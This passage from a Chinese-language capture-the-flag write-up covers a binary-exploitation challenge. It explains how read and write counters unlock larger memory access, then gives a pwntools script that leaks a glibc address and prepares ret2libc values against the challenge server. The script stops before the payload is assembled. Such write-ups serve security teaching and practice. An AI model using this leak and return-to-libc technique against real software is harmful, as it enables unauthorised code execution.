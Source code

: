 4. 整理一下可以發現當 `read` 2 次、 `write` 3 次時可以 read 0x100 bytes，而當 `read` 3 次、 `write` 8 次時可以寫 0x1000 bytes。各個 memory 紀錄的數值如下：
   - `[0x404f00]` counts how many time read been called
   - `[0x404f08]` counts how many time write been called
   - `[0x404f10]` original read
   - `[0x404f18]` original write
5. 因此我們可以用 `read` 0x100 bytes 來 leak glibc (libc version 可從提供的 container 得知)，然後用 `write` 0x1000 bytes 做 ret2libc。

   ```python
   from pwn import *

   #p = remote('127.0.0.1', 12348)
   p = remote('chals1.ais3.org', 12348)
   debug = False

   #p = process('./magic/share/magic')
   #p = gdb.debug('./magic/share/magic', gdbscript='continue')
   #debug = True

   def read():
       print('[*] Reading')
       print(p.recvuntil(b'> '))
       p.sendline(b'w')
       data = p.recvuntil(b'read')[:-4]
       print('[*] Read', data)
       return data

   def write(data=b'A'):
       print('[*] Writing')
       print(p.recvuntil(b'> '))
       p.sendline(b'r')
       p.send(data)
       print('[*] Written', data)
       return

   def super_read():
       write()
       write()
       read()
       read()
       data = read()
       return data

   def super_write(payload):
       for _ in range(5):
           read()
       write(payload)

   # leak libc: version libc6_2.31-0ubuntu9.2_amd64
   leak = super_read()
   print('leak:', leak)

   if debug:
       libc = int.from_bytes(leak[22:22+8], 'little') - 0x240b3
   else:
       libc = int.from_bytes(leak[27:27+8], 'little') - 0x240b3
   print(f'[+] Libc base: {libc:#2x}')
   padding = b'A'*22
   system = libc + 0x522c0
   bin_sh = libc + 0x1b45bd
   pop_rdi = 0x401313
   ret = 0x40101a

   ```